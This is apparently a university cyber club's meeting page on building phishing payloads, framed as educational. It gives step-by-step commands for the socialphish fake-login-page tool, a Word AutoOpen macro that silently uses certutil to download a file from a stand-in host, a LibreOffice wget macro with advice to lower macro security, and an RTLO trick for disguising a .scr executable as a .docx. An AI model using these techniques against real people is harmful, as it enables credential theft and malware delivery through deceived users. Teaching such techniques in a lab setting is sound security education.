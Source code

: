 # Making a Phishing Payload
The content shared and discussed in this club meeting is for educational purposes only

I have made a harmless program at <https://umlcyber.club/watcher_1.exe> for you to download and run as part of your macros. It is not malicious, but it is annoying to remove. So don't run it on your main Windows computer!
## Social Phish
UML blocks serveo.net because it is malware. So you will need to use a VPN or the Cyber Range computers.

To run socialphish:
> git clone https://github.com/pvanfas/socialphish.git

> cd socialphish

> chmod +x socialphish.sh

> ./socialphish

When it says "Choose an option", type the number of the login form you want to make.

When it says "Choose a port forwarding option", just press enter.

When it says "Choose a port", just press enter.

Go to the URL it gives you. Fake login page. Pretty sweet!

For a more in-depth guide, view: <https://infosecwriteups.com/phishing-got-easier-with-socialphish-b04dcbab3900>
## Macros
### Windows
You can install microsoft office using your UML email account.

To make a new macro, go to "View" -> "Macros" -> "View Macros" -> "Create" (you need to give it a name first)

When saving your file, go to `Save As` and save it as a `Word Macro-Enabled Document (*.docm)`
```
Sub AutoOpen()
    Dim Command As String
    Dim TempFolder As String

    ' Get the path of the temp folder
    TempFolder = Environ$("temp")

    ' Define the command to download the file
    Command = "cmd /c certutil -urlcache -split -f ""http://example.com/file.txt"" """ & TempFolder & "\file.txt"""

    ' Run the command
    Call Shell(Command, vbHide)
End Sub
```

### Linux
LibreOffice has good security defaults! By default, only signed macros from trusted sources can run. To run your macros, you will have to lower the security level.

To lower the security level, go to "Tools" -> "Options" -> "Security" tab -> "Macro Security" and set it to Medium or Low.

You can get a shell with linux macros, and then do whatever you want. For example:
```
Sub DownloadFile
    Shell("wget https://example.com/file.zip -O /path/to/save/file.zip")
End Sub
```

## RTLO Character
The RTLO character stands for Right-To-Left Override. It is a non-printing Unicode character, represented by the Unicode character code U+202E1. This character is used to write languages that are read in the right-to-left manner, such as Hebrew, Arabic, Aramaic, and Urdu. It takes the input and literally just flips the text the other way round.

The RTLO character can be used to reverse the display of text that follows it. For example, a Windows screensaver executable named March 25 \u202Excod.scr will display as March 25 rcs.docx. Adversaries may abuse the RTLO character as a means of tricking a user into executing what they think is a benign file type.

Get the character here: <https://unicode-explorer.com/c/202E>

## watcher_1.exe malware

## Homographic attacks
IBM logs attempts at squatting google: <https://exchange.xforce.ibmcloud.com/collection/Google-Squatting-Campaign-b69974c86fff1c2b7f6ea9e477144001>